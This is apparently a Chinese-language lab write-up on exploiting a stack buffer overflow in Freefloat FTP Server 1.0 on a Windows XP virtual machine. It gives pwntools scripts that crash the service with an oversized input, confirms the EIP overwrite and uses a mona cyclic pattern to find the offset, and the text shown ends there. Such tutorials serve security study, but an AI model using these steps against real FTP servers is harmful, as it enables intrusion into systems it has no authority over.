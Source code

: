 ```yaml
---
title: "Freefloat_FTP_Server1.0"
date: 2020-04-06T14:18:31+08:00
draft: false
---
```



## 0x00 基本介绍

此处以Freefloat FTP Server1.0为例

- 测试软件：Freefloat FTP Server1.0
- 虚拟机：Windows XP Pro Sp3
- 工具：Immunity Debugger、Pwntools、Metasploit

## 0x01 溢出

```python
#测试脚本
from pwn import *
p = remote("192.168.137.128", 21)
payload = 'A'*500
p.sendline(payload)
p.interactive()
```

!https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3998ca97-30bd-4a8a-9dfc-dab229c82dd4/Untitled.png

EIP被覆盖为41414141，即AAAA，如果将这个AAAA替换成我们准备好的指令地址，就能执行任意指令，同时我们需要知道这个指令覆盖的偏移量，即这500个字符哪四个字符刚好可以覆盖EIP的位置。

## 0x02 偏移量

### Mona

```python
#生成500个垃圾字符
!mona pc 500
//Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4
```

替换原有的垃圾字符

```python
from pwn import *
p = remote("192.168.137.128", 21)
#payload = 'A'*500
payload ='Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4'
p.sendline(payload)
p.interactive()
```
